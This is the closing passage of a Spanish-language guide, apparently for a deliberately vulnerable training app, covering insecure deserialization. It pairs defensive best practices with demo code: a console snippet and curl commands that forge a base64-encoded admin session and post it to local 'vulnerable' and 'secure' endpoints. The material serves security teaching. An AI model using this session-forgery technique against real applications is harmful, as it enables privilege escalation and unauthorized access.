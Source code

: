 1. **Nunca confíes en datos deserializados del cliente** sin verificación criptográfica
2. **`eval` es tu enemigo**: Nunca uses `eval()`, `Function()`, o `vm` con entrada de usuario
3. **Usa firmas HMAC o JWT** para verificar integridad de datos
4. **Valida schema con whitelist** antes de usar datos deserializados
5. **Verifica expiración** de sesiones y tokens
6. **Actualiza librerías**: Muchas vulnerabilidades de deserialización están en librerías antiguas
7. **Monitorea intentos**: Log intentos de falsificación para detección de ataques
8. **Principio de menor privilegio**: Incluso si se falsifica, limita el daño

---

## 🛠️ Comandos Útiles para la Demo

### Ver Sesión Base64 en la Consola

```javascript
// Abrir DevTools (F12) → Console

// Crear sesión falsa
const fakeSession = {
  user: { id: 999, username: "hacker", role: "admin" },
  expiresAt: new Date(Date.now() + 3600000).toISOString(),
};

// Serializarla
const sessionData = btoa(JSON.stringify(fakeSession));
console.log("Session Data:", sessionData);

// Enviarla
fetch("http://localhost:3101/api/vulnerable/deserialization/load-session", {
  method: "POST",
  headers: { "Content-Type": "application/json" },
  body: JSON.stringify({ sessionData }),
})
  .then((res) => res.json())
  .then((data) => console.log("Response:", data));
```

### Verificar con cURL

```bash
# Sesión falsificada de admin
curl -X POST http://localhost:3101/api/vulnerable/deserialization/load-session \
  -H "Content-Type: application/json" \
  -d '{"sessionData":"eyJ1c2VyIjp7ImlkIjo5OTksInVzZXJuYW1lIjoiaGFja2VyIiwicm9sZSI6ImFkbWluIn0sImV4cGlyZXNBdCI6IjIwMjUtMTAtMjRUMDU6MDA6MDAuMDAwWiJ9"}'

# Modo seguro (fallará sin firma)
curl -X POST http://localhost:3101/api/secure/deserialization/load-session \
  -H "Content-Type: application/json" \
  -d '{"sessionData":"eyJ1c2VyIjp7ImlkIjo5OTksInVzZXJuYW1lIjoiaGFja2VyIiwicm9sZSI6ImFkbWluIn0sImV4cGlyZXNBdCI6IjIwMjUtMTAtMjRUMDU6MDA6MDAuMDAwWiJ9"}'
```

---

✅ **Insecure Deserialization configurado y listo para demostrar**. Navega a `http://localhost:3100/vulnerabilities/insecure-deserialization` para probarlo.
